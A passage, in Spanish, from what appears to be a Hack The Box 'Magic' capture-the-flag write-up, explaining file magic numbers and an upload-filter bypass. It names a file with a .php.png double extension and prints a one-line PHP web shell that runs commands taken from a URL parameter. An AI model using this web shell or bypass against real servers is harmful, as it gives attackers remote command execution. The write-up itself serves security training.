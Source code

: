 Pero podemos intentar subir esta secuencia en php jugando con los magic numbers:
## Magic Numbers

Los números magicos (también en ingles Magic numbers ó File signature) son los primeros bytes de un archivo que identifican de forma única el tipo de archivo. Estos números permite al sistema operativo diferenciar y reconocer diferentes archivos sin necesitar la extensión del archivo.

<p align="center">
  <img src="../assets/images/htb-writeup-magic/Numeros-magicos-de-archivos.png">
</p>
Aúnque en algunos casos los números magicos no se encuentran en los primeros bytes del archivo. Por ejemplo, el sistema de archivos ext2 / ext3 tiene los bytes 0x53 y 0xEF en la posición 1080 y 1081. 
Más información en: [https://www.geeksforgeeks.org/working-with-magic-numbers-in-linux/ ](https://www.geeksforgeeks.org/working-with-magic-numbers-in-linux/ )
Lista de algunos números magicos: [1](https://en.wikipedia.org/wiki/List_of_file_signatures) [2](https://asecuritysite.com/forensics/magic) [3]( https://www.garykessler.net/library/file_sigs.html )
<br>
<br>
<br>
Se complico un poco subir el archivo modificando los magic numbers manualmente, entonces se puede usar un truco que consisten en pones la extension *.php.png* al archivo, y agregar en alguna parte de este archivo (se encuentra en formato binario) codigo en php. Insertaremos la siguiente linea en el archivo **prueba.php.png** :

```php
<?php system($_GET['cmd']); ?>
```
